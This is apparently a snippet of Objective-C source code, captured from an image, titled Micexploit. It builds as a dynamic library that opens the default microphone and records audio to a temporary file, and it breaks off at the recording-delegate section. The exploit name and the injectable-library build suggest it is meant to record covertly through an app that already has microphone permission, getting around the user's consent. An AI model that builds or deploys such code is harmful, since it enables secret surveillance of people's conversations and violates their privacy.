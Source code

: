 ```
// gcc -dynamiclib -framework Foundation -framework AVFoundation Micexploit.m -o Micexploit.dylib

@interface AudioRecorder : NSObject <AVCaptureFileOutputRecordingDelegate>

@property (strong, nonatomic) AVCaptureSession *captureSession;
@property (strong, nonatomic) AVCaptureDeviceInput *audioDeviceInput;
@property (strong, nonatomic) AVCaptureMovieFileOutput *audioFileOutput;

- (void)startRecording;
- (void)stopRecording;

@end

@implementation AudioRecorder

- (instancetype)init {
    self = [super init];
    if (self) {
        [self setupCaptureSession];
    }
    return self;
}

- (void)setupCaptureSession {
    self.captureSession = [[AVCaptureSession alloc] init];
    self.captureSession.sessionPreset = AVCaptureSessionPresetHigh;

    AVCaptureDevice *audioDevice = [AVCaptureDevice defaultDeviceWithMediaType:AVMediaTypeAudio];
    NSError *error;
    self.audioDeviceInput = [[AVCaptureDeviceInput alloc] initWithDevice:audioDevice error:&error];

    if (error) {
        NSLog(@"Error setting up audio device input: %@", [error localizedDescription]);
        return;
    }

    if ([self.captureSession canAddInput:self.audioDeviceInput]) {
        [self.captureSession addInput:self.audioDeviceInput];
    }

    self.audioFileOutput = [[AVCaptureMovieFileOutput alloc] init];

    if ([self.captureSession canAddOutput:self.audioFileOutput]) {
        [self.captureSession addOutput:self.audioFileOutput];
    }
}

- (void)startRecording {
    [self.captureSession startRunning];
    NSString *outputFilePath = [NSTemporaryDirectory() stringByAppendingPathComponent:@"recording.m4a"];
    NSURL *outputFileURL = [NSURL fileURLWithPath:outputFilePath];
    [self.audioFileOutput startRecordingToOutputFileURL:outputFileURL recordingDelegate:self];
    NSLog(@"Recording started");
}

- (void)stopRecording {
    [self.audioFileOutput stopRecording];
    [self.captureSession stopRunning];
    NSLog(@"Recording stopped");
}

#pragma mark - AVCaptureFileOutputRecordingDelegate
```